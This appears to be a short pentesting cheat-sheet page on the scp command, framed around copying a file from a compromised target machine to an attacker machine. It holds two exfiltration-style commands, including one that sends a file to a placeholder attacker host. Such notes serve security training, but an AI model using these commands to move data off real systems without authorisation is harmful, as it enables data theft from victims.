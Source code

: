 ```yaml
---
title: Scp
desc: It securely copy files and directories between two locations.
tags: [Linux, SSH]
alts: []
website:
render_with_liquid: false
---
```


## Transfer File from Target Machine to Attack Machine

```sh
# If you're on target machine
scp ./example.txt attacker@<attacker-ip>:/home/<username>/example.txt

# If your're on attack machine
scp victim-user@<target-ip>:./example.txt .
```